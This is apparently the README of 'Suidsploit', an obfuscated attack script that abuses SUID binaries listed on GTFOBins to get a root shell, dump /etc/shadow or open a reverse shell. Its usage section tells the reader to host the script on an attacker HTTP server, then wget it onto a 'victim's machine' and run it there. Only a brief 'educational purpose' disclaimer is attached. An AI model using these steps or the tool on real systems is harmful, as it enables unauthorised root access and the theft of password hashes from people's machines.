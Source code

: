 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

# Why it's obfuscated?

- Simply because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git
$ cd Suidsploit/
$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh
$ chmod +x Suidsploit.ob.sh
$ bash Suidsploit.ob.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
